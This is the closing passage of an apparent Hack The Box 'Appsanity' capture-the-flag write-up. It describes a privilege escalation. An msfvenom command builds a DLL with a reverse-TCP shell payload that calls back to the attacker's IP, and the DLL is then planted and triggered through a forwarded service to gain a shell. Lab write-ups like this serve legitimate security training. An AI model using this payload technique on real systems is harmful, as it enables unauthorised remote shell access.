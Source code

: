 Additionally, I was unable to run the actual `.exe` myself on the machine due to 'Access denied', indicating that it was owned (and probably run) by the administrator.

To exploit it, first I generated a malicious DLL file via `msfvenom`, then uploaded that to the `Libraries` directory. I tried a lot of payloads, and for some reason this one works.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=21 -f dll -o externalupload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll
```

Afterwards, I used `chisel` to forward port 100 to my machine so I could access the service, and then used `nc` to execute all the commands available. One of them eventually executed the `.dll` file and gave me a shell:

![](../../.gitbook/assets/htb-appsanity-image-29.png)

Rooted!